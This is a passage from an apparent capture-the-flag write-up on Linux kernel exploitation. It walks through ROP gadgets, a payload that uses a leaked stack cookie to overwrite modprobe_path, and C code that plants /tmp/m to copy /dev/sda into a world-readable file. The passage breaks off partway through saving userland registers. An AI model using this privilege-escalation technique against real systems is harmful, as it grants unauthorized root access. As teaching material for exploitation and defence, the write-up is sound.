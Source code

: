        0xffffffff98000f24:	pop    rdx |
       0xffffffff98000f25:	pop    rsi /
       0xffffffff98000f26:	mov    rdi,rsp <- jump here
We can skip all that pop jumping directly at `mov rdi, rsp` instruction.
Now let's get the rop gadgets, we must assume thay kernel base is 0xffffffff81000000

    $ cat gadgets.txt |grep ": pop rax ; ret"
    0xffffffff81004d11 : pop rax ; ret

    $ cat gadgets.txt |grep ": pop rbx ; ret"
    0xffffffff81006158 : pop rbx ; ret

We also need a gadget like this

    0xffffffff8100306d : mov qword ptr [rbx], rax ; pop rbx ; pop rbp ; ret

# _R00T_
So far we have leaked kernel stack cookie, kernel base address, rop gadgets, functions... and we know the offset to overwrite rip register.

Now let's make our payload, we left it in this state:

    int n = 50;
    int off= 16;
    unsigned long payload[n];
    payload[off++] = cookie; //kernel cookie pops these 3 registers not just rbp like userland
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
We will update it in:

    payload[off++] = cookie; //kernel cookie pops these 3 registers not just rbp like userland
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax;
    payload[off++] = 0x6d2f706d742f // /tmp/m (https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)&input=bS9wbX>
    payload[off++] = pop_rbx;
    payload[off++] = modprobe;
    payload[off++] = mov_rbx_rax;
    payload[off++] = 0x0; // pop rbx
    payload[off++] = 0x0; // pop rbp
So far we have overwritten modprobe_path to /tmp/m, but what is /tmp/m?
/tmp/m will be our malicious payload to become root, when we return to userland, in this case we will read the flag stored in /dev/sda.
Then we create /tmp/dummy that contains 4 \xff bytes for the header, when executed the kernel will call modprobe_path, but in reality it will execute /tmp/m because we overwrote it. Translating it in c:
```c
void get_root(void){
        system("echo '#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/m");
        system("chmod +x /tmp/m");
        system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
        system("chmod +x /tmp/dummy");
        system("/tmp/dummy");
        system("cat /tmp/flag");
        exit(0);
}
```
Speaking of we need to return userland from kernel mode, and we can't point to address of a win function. We need to save the state our register before we enter in kernel land, and restore them just after getting root.
```c
unsigned long user_cs, user_ss, user_rflags, user_sp;

```
